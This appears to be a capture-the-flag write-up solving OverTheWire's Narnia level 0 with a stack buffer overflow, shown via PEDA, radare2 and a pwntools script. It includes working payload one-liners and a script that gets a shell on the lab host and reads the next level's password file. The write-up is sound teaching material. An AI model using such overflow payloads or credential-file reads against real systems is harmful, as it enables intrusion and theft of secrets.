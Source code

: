 ```yaml
---
title: "Narnia0 Write-up"
layout: post
category: HackING
author: A1phaZer0
---
```

3 ways to conquer narnia0, by peda, by radare2 and by pwntools.
<!--more-->
### PEDA way
1.Get De Bruijn sequence to make overflow happen.  
```bash
gdb-peda$ pattern create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /narnia/narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
buf: AAA%AAsAABAA$AAnAACAA-AA
val: 0x41412d41
WAY OFF!!!!
[Inferior 1 (process 1013) exited with code 01]
Warning: not running or target is remote
```
2.`val` is filled by `0x41 0x2d 0x41 0x41` (little endian), which is `A-AA`. Now we know that `val` is 20 bytes away from beginning of the buffer.  
```bash
gdb-peda$ pattern offset A-AA
A-AA found at offset: 20
```
3.Craft the desired sequence.  
```bash
$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0
```
4.But, nothing happened.  
```bash
narnia0@narnia:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
                                                 val: 0xdeadbeef
narnia0@narnia:/narnia$
```
NOW, HERE IS THE TRICK   
```c
+-------------------+           +---------------+           +-------------------+
|                   |  write()  |               |  read()   |                   |
|  libc I/O buffer  |---------->|  pipe buffer  |---------->|  libc I/O buffer  |
|                   |           |               |           |                   |
+-------------------+           +---------------+           +-------------------+
|             ^     |                                       |     |             |
| printf()    |     |                                       |     |    scanf()  |
| puts()      |     |                                       |     |    getline()|
| fwrite()----+     |                                       |     +---->fread() |
|                   |                                       |                   |
|                   |                                       |                   |
+-------------------+                                       +-------------------+
```
* stdin is always buffered.
* stderr is always unbuffered.
* stdout is line buffered if it's a terminal, otherwise it's buffered.
* if left side of pipe is closed, right side process will read() a EOF.

So, when a process on the left side of the pipe explicitly calls flush function or when it exits, everything in I/O buffer will be write() into pipe buffer. On the right side, it's a different story, e.g. `scanf("%20s", buf);`, if characters left in I/O buffer is not enough, then kernel will read() everything in pipe buffer into I/O buffer, if characters in pipe buffer is not adequate, then there will be another read() until there's nothing to read(), i.e. read() returns 0.  

In this program, narnia0, `system("/bin/sh");` is called, means that there will be another process and I/O buffer connected to pipe buffer. New shell tries to read() from pipe buffer to get input, so our work is to satisfy `scanf()` in narnia0 and leave something to read() in pipe buffer.  

### radare2 way
In radare2 one can directly do reverse engineering to see what's under the hood.   
1.Open binary and navigate to `main`.
```bash
narnia0@narnia:/narnia$ r2 narnia0
[0x08048400]> s main
```
2.Analyze `main` function and print disassembled code.
```bash
[0x080484fd]> afr main
[0x080484fd]> pdf
/ (fcn) main 156
|           0x080484fd      55             push ebp
|           0x080484fe      89e5           mov ebp, esp
|           0x08048500      83e4f0         and esp, 0xfffffff0
|           0x08048503      83ec30         sub esp, 0x30
|           0x08048506      c744242c4141.  mov dword [esp + 0x2c], 0x41414141
|           ...
|           0x08048526      8d442418       lea eax, [esp + 0x18]
|           0x0804852a      89442404       mov dword [esp + 4], eax
|           0x0804852e      c70424798604.  mov dword [esp], str._24s
|           0x08048535      e8b6feffff     call sym.imp.__isoc99_scanf
|           ...
|           0x08048597      c9             leave
\           0x08048598      c3             ret
```
As one can see, `esp + 0x2c` is where 0x41414141 located and `esp + 0x18` is where buffer start.
```bash
[0x080484fd]> ? 0x2c - 0x18
20 0x14 024 20 0000:0014 20 "\x14" 00010100 20.0 20.000000f 20.000000
```
Now one can know that `val` is 20 bytes away from `buffer` and scanf reads 24 bytes from input, so the last 4 bytes will override what's in `val`.  

### pwntools way
```python
#!/usr/bin/env python

from pwn import *

session = ssh('narnia0', 'narnia.labs.overthewire.org', port=2226, password='narnia0')

io = session.process('/narnia/narnia0')

io.sendline(cyclic(20)+p32(0xdeadbeef))
io.sendline('cat /etc/narnia_pass/narnia1')

log.info (io.recvregex('\$.*\n'))

io.close()
session.close()
```
